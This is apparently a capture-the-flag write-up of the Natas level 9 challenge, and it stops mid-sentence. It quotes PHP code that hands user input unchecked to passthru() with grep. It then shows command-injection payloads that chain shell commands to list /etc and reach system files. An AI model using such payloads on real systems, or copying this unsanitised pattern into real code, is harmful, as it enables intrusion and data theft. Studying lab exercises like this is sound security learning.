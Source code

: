 The interesting part is this part of the code:

```php
<form>
  Find words containing:
  <input name=needle>
  <input type=submit name=submit value=Search>
  <br><br>
</form>

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
  $key = $_REQUEST["needle"];
}

if($key != "") {
  passthru("grep -i $key dictionary.txt");
}
?>
</pre>
```

The [passthru()](https://www.php.net/manual/en/function.passthru.php) function won't check any validations on the input so that this code won't care what the user can do on the system.

So, this system can be OS injection. Normally, the password file in linux is stored in /etc/passwd so, we will try to get in the folder /etc/ first.

Now, let's get our hand dirty with injecting the payload in to the input field:

```shell
; pwd #
```

And the result I get is

```shell
/var/www/natas/natas9
```

This code will let us know where we are in the current system, and ignore the remain code.

Now there are 2 ways to solve this problem:

- Long way: cd to the /etc/ directory and then try to look over files
- Short way: stand in the current directory and cat the files from /etc/

I will perform the Long way solve for this one. Then, I will inject the payload:

```shell
; cd ../../../../ ; cd /etc/ ; ls #
```

Then, you can see all the files in the /etc/ directory. He ae files or directories that I feel suspicious:
